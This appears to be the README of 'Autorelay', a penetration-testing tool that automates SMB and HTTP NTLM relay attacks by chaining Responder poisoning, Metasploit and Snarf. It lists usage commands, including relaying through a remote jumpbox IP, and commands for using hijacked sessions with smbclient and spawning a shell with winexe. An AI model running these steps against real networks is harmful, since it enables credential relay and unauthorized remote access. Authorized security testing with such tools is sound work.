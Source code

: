 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file of the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* python autoresp.py -x local-network.xml -i eth0

#####Remote

* python autoresp.py -x remote-network.xml -i eth0 -r 95.34.53.243 

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe a%a //127.0.0.1 -U cmd.exe

